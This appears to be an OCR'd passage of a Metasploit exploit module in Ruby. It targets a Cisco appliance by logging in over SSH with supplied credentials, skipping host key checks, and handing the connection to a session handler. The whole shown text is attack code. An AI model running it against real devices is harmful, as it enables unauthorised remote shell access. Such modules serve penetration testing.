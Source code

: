 ```
    datastore['RHOST']
  end

  def rport
    datastore['RPORT']
  end

  def do_login(user, pass)
    factory = ssh_socket_factory
    opts = {
      :auth_methods    => ['password', 'keyboard-interactive'],
      :port            => rport,
      :use_agent       => false,
      :config          => false,
      :password        => pass,
      :proxy           => factory,
      :non_interactive => true,
      :verify_host_key => :never
    }

    opts.merge!(:verbose => :debug) if datastore['SSH_DEBUG']

    begin
      ssh = nil
      ::Timeout.timeout(datastore['SSH_TIMEOUT']) do
        ssh = Net::SSH.start(rhost, user, opts)
      end
    rescue Rex::ConnectionError
      return
    rescue Net::SSH::Disconnect, ::EOFError
      print_error "#{rhost}:#{rport} SSH - Disconnected during negotiation"
      return
    rescue ::Timeout::Error
      print_error "#{rhost}:#{rport} SSH - Timed out during negotiation"
      return
    rescue Net::SSH::AuthenticationFailed
      print_error "#{rhost}:#{rport} SSH - Failed authentication"
    rescue Net::SSH::Exception => e
      print_error "#{rhost}:#{rport} SSH Error: #{e.class} : #{e.message}"
      return
    end

    if ssh
      conn = Net::SSH::CommandStream.new(ssh)
      ssh = nil
      return conn
    end

    return nil
  end

  def exploit
    user = datastore['USERNAME']
    pass = datastore['PASSWORD']

    print_status("#{rhost}:#{rport} - Attempt to login to the Cisco appliance...")
    conn = do_login(user, pass)
    if conn
      print_good("#{rhost}:#{rport} - Login Successful (#{user}:#{pass})")
      handler(conn.lsock)
    end
  end
end
```